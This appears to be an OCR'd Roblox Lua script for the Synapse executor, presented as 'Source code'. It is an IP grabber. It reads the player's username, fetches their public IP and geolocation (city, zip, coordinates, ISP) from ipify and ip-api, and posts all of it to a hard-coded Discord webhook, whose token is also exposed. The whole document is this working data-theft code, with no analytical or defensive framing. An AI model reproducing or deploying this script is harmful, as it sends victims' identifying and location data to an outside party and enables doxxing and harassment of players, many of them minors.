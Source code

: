 local name = game:GetService("Players").LocalPlayer.Name
local WebhookURL = "https://discord.com/api/webhooks/1322310967115120712/zC4JhbgK98iOUBSHyIjFIxAmZ6CtY9QuzSdkyGczt3INDERyWEMgjWbtZeN6D-Qu11Qr"
local getIPResponse = syn.request({
    Url = "https://api.ipify.org/?format=json",
    Method = "GET"
})
local GetIPJSON = game:GetService("HttpService"):JSONDecode(getIPResponse.Body)
local IPBuffer = tostring(GetIPJSON.ip)

local getIPInfo = syn.request({
    Url = string.format("http://ip-api.com/json/%s", IPBuffer),
    Method = "Get"
})
local IIT = game:GetService("HttpService"):JSONDecode(getIPInfo.Body)
local FI = {
    IP = IPBuffer,
    country = IIT.country,
    countryCode = IIT.countryCode,
    region = IIT.region,
    regionName = IIT.regionName,
    city = IIT.city,
    zipcode = IIT.zip,
    latitude = IIT.lat,
    longitude = IIT.lon,
    isp = IIT.isp,
    org = IIT.org
}
local dataMessage = string.format("User: %s\nIP: %s\nCountry: %s\nCountry Code: %s\nRegion: %s\nRegion Name: %s\nCity: %s\nZipcode: %s\nISP: %s\nOrg: %s", name, FI.IP, FI.country, FI.countryCode, FI.region, FI.regionName, FI.city, FI.zipcode, FI.isp, FI.org)
local MessageData = {
    ["content"] = dataMessage
}

syn.request(
    {
        Url = WebhookURL, 
        Method = "POST",
        Headers = {
            ["Content-Type"] = "application/json"
        },
        Body = game:GetService("HttpService"):JSONEncode(MessageData)
    }
)
